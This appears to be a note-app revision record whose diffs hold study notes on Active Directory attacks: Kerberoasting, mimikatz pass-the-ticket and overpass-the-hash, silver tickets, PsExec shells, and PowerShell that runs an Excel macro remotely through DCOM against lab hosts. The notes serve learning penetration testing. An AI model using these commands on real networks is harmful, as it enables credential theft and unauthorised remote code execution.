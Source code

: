 id: 442bf0c33d434bd1bcbbe07c2063f54b
parent_id: 953a1e4c998245228273a9b83ba909c8
item_type: 1
item_id: 07865553b30a4727ac88b108b5e909ef
item_updated_time: 1643596361777
title_diff: "[{\"diffs\":[[0,\" Attacks\"],[1,\"\\\r\"]],\"start1\":2,\"start2\":2,\"length1\":8,\"length2\":9}]"
body_diff: "[{\"diffs\":[[0,\" Attacks\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nWhen re\"]],\"start1\":17,\"start2\":17,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" by SPN.\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nChecks \"]],\"start1\":140,\"start2\":140,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"stablish\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n- If we\"]],\"start1\":211,\"start2\":211,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" from DC\"],[1,\"\\\r\"],[0,\"\\\n- Since\"]],\"start1\":283,\"start2\":283,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\" to disk\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nOnce we\"]],\"start1\":369,\"start2\":369,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"e ticket\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> Add-T\"]],\"start1\":472,\"start2\":472,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ityModel\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> New-O\"]],\"start1\":521,\"start2\":521,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"orp.com'\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nCalling\"]],\"start1\":640,\"start2\":640,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" client.\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n## Get \"]],\"start1\":756,\"start2\":756,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"s ticket\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> In mi\"]],\"start1\":793,\"start2\":793,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" to disk\"],[1,\"\\\r\"],[0,\"\\\n> \"],[1,\"\\\r\"],[0,\"\\\n> If on\"]],\"start1\":872,\"start2\":872,\"length1\":19,\"length2\":21},{\"diffs\":[[0,\"se klist\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![1b7e5\"]],\"start1\":908,\"start2\":908,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"a5dff33)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n## Crac\"]],\"start1\":987,\"start2\":987,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"oasting)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![367e7\"]],\"start1\":1074,\"start2\":1074,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"9539787)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> pytho\"]],\"start1\":1153,\"start2\":1153,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"file&gt;\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![0d936\"]],\"start1\":1253,\"start2\":1253,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"541ab71)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nWe can \"]],\"start1\":1332,\"start2\":1332,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"me thing\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nThis te\"]],\"start1\":1392,\"start2\":1392,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ERFUL if\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n- Domai\"]],\"start1\":1430,\"start2\":1430,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" common)\"],[1,\"\\\r\"],[0,\"\\\n- (Grou\"]],\"start1\":1518,\"start2\":1518,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"se days)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![cf1a0\"]],\"start1\":1654,\"start2\":1654,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"a215c09)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n# Low a\"]],\"start1\":1733,\"start2\":1733,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"Guessing\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nFor sce\"]],\"start1\":1769,\"start2\":1769,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" account\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nWill us\"]],\"start1\":1847,\"start2\":1847,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" lockout\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nDomain'\"]],\"start1\":1932,\"start2\":1932,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"accounts\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![314c3\"]],\"start1\":1993,\"start2\":1993,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"095d0b3)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nWe can \"]],\"start1\":2072,\"start2\":2072,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ponents.\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nUse the\"]],\"start1\":2145,\"start2\":2145,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"login to\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n```Powe\"]],\"start1\":2259,\"start2\":2259,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"wershell\"],[1,\"\\\r\"],[0,\"\\\n$domain\"]],\"start1\":2276,\"start2\":2276,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"Domain()\"],[1,\"\\\r\"],[0,\"\\\n$PDC = \"]],\"start1\":2360,\"start2\":2360,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"er).Name\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n$Search\"]],\"start1\":2399,\"start2\":2399,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"LDAP://\\\"\"],[1,\"\\\r\"],[0,\"\\\n$Search\"]],\"start1\":2428,\"start2\":2428,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"DC + \\\"/\\\"\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n$Distin\"]],\"start1\":2457,\"start2\":2457,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\",DC='))\\\"\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n$Search\"]],\"start1\":2523,\"start2\":2523,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"uishName\"],[1,\"\\\r\"],[0,\"\\\nNew-Obj\"]],\"start1\":2560,\"start2\":2560,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"9!\\\")\"],[1,\"\\\r\"],[0,\"\\\n```\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![9\"]],\"start1\":2656,\"start2\":2656,\"length1\":13,\"length2\":16},{\"diffs\":[[0,\"801a5e3)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nYou can\"]],\"start1\":2736,\"start2\":2736,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ate it )\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n# Later\"]],\"start1\":2819,\"start2\":2819,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"Movement\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nUsing o\"]],\"start1\":2841,\"start2\":2841,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"s ticket\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nPass-th\"]],\"start1\":2899,\"start2\":2899,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"h-winexe\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n## Over\"]],\"start1\":2933,\"start2\":2933,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"the hash\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n\\\"Over\\\" \"]],\"start1\":2957,\"start2\":2957,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"h-winexe\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nIn mimi\"]],\"start1\":3053,\"start2\":3053,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"mimikatz\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> sekur\"]],\"start1\":3068,\"start2\":3068,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"hell.exe\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nOnce we\"]],\"start1\":3164,\"start2\":3164,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"th klist\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nIf no t\"]],\"start1\":3220,\"start2\":3220,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"re on DC\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> net u\"]],\"start1\":3317,\"start2\":3317,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"dc01\"],[1,\"\\\r\"],[0,\"\\\n> \"],[1,\"\\\r\"],[0,\"\\\n> klist\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![3\"]],\"start1\":3342,\"start2\":3342,\"length1\":20,\"length2\":24},{\"diffs\":[[0,\"a00557a)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nWith th\"]],\"start1\":3430,\"start2\":3430,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ts auth.\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n**Obtai\"]],\"start1\":3500,\"start2\":3500,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"sExec)**\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> ./PsE\"]],\"start1\":3554,\"start2\":3554,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" cmd.exe\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n## Pass\"]],\"start1\":3588,\"start2\":3588,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"e-Ticket\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nTakes a\"]],\"start1\":3610,\"start2\":3610,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"service.\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nSuitabl\"]],\"start1\":3751,\"start2\":3751,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"methods.\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n- Does \"]],\"start1\":3849,\"start2\":3849,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ket from\"],[1,\"\\\r\"],[0,\"\\\n- If a \"]],\"start1\":3945,\"start2\":3945,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\" methods\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nUser an\"]],\"start1\":4053,\"start2\":4053,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"e ticket\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n- Forge\"]],\"start1\":4198,\"start2\":4198,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"Ticket**\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![b2722\"]],\"start1\":4313,\"start2\":4313,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"5549a62)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nWe can \"]],\"start1\":4392,\"start2\":4392,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"y using:\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> whoam\"]],\"start1\":4431,\"start2\":4431,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"mi /user\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![5d5e2\"]],\"start1\":4449,\"start2\":4449,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"f381854)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![8faa7\"]],\"start1\":4528,\"start2\":4528,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"651b50c)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nMethod \"]],\"start1\":4607,\"start2\":4607,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"Mimikatz\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n> kerbe\"]],\"start1\":4649,\"start2\":4649,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"s::purge\"],[1,\"\\\r\"],[0,\"\\\n> \"],[1,\"\\\r\"],[0,\"\\\n> kerbe\"]],\"start1\":4670,\"start2\":4670,\"length1\":19,\"length2\":21},{\"diffs\":[[0,\"is empty\"],[1,\"\\\r\"],[0,\"\\\n> \"],[1,\"\\\r\"],[0,\"\\\n> kerbe\"]],\"start1\":4716,\"start2\":4716,\"length1\":19,\"length2\":21},{\"diffs\":[[0,\"25e /ptt\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n/rc4: t\"]],\"start1\":4905,\"start2\":4905,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\" account\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\n![9fc60\"]],\"start1\":4967,\"start2\":4967,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"4f4c851)\"],[-1,\"\\\n\"],[1,\"\\\r\\\n\\\r\"],[0,\"\\\nhttps:/\"]],\"start1\":5046,\"start2\":5046,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"ckets.md\"],[1,\"\\\r\\\n\\\r\\\nAs follow up steps, we should inject the ticket into the memory and obtain a shell in the server we want to move to\\\r\\\n\\\r\\\n> mimikatz # kerberos::ptt &lt;ticket\\\\_kirbi\\\\_file&gt;\\\r\\\n> \\\r\\\n> CMD # .\\\\PsExec.exe -accepteula \\\\\\\\\\\\labwws02.jurassic.park cmd\\\r\\\n\\\r\\\nhttps://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket \\\r\\\n\\\r\\\n## DCOM (Distributed Component Object Model)\\\r\\\n\\\r\\\n![eacbf526701e8e59c1c68f4135a16115.png](:/356f1d18b595411893837bd94518826a)\\\r\\\n\\\r\\\nMust install Microsoft Office to work\\\r\\\n\\\r\\\n![e14ca8cd90ebfe9df26a40ef243c7a40.png](:/0b09b2488a1847279bd93cf3e68d5a79)\\\r\\\n\\\r\\\n![2740720923bf93debf65acfab719f817.png](:/654a3d7ad75d42a7a27311a43ae3d8a5)\\\r\\\n\\\r\\\nThis error occurs because Excel.Application is instantiated through DCOM, which is done with SYSTEM account\\\r\\\n\\\r\\\nSYSTEM does not have a profile. To fix this problem, we can simply create the Desktop folder at C:\\\\\\\\Windows\\\\\\\\SysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\r\\\n\\\r\\\nCreate the directory with the following PowerShell code:\\\r\\\n\\\r\\\n> $Path = \\\"[\\\\\\\\\\\\192.168.1.110\\\\\\\\c$\\\\\\\\Windows\\\\\\\\sysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\\\\\\Desktop](file:///\\\\\\\\192.168.1.110\\\\c$\\\\Windows\\\\sysWOW64\\\\config\\\\systemprofile\\\\Desktop)\\\"\\\r\\\n\\\r\\\n> $temp = \\\\[system.io.directory\\\\]::createDirectory($Path)\\\r\\\n\\\r\\\nCalling the Open method again should now succeed. We can then call the Run method with the following script:\\\r\\\n\\\r\\\n> $com = \\\\[activator\\\\]::CreateInstance(\\\\[type\\\\]::GetTypeFromProgId(\\\"Excel.Application\\\", \\\"192 .168.1.110\\\"))\\\r\\\n\\\r\\\n> $LocalPath = \\\"C:\\\\\\\\Users\\\\\\\\jeff_admin.corp\\\\\\\\myexcel.xls\\\"\\\r\\\n> \\\r\\\n> $RemotePath = \\\"[\\\\\\\\\\\\192.168.1.110\\\\\\\\c$\\\\\\\\myexcel.xls](file:///\\\\\\\\192.168.1.110\\\\c$\\\\myexcel.xls)\\\" \\\\[System.IO.File\\\\]::Copy($LocalPath, $RemotePath, $True)\\\r\\\n> \\\r\\\n> $Path = \\\"[\\\\\\\\\\\\192.168.1.110\\\\\\\\c$\\\\\\\\Windows\\\\\\\\sysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\\\\\\Desktop](file:///\\\\\\\\192.168.1.110\\\\c$\\\\Windows\\\\sysWOW64\\\\config\\\\systemprofile\\\\Desktop)\\\" $temp = \\\\[system.io.directory\\\\]::createDirectory($Path)\\\r\\\n> \\\r\\\n> $Workbook = $com.Workbooks.Open(\\\"C:\\\\\\\\myexcel.xls\\\") $com.Run(\\\"mymacro\\\")\\\r\\\n\\\r\\\nThis code should open the Notepad application as a background process executing in a high integrity context on the remote machine\\\r\\\n\\\r\\\n![5307d353cd314b401df7b8194ae1ff6a.png](:/e601279c1971474a9fffec016c8c44b8)\\\r\"]],\"start1\":5215,\"start2\":5215,\"length1\":8,\"length2\":2151}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T04:06:57.730Z
created_time: 2022-04-22T04:06:57.730Z
type_: 13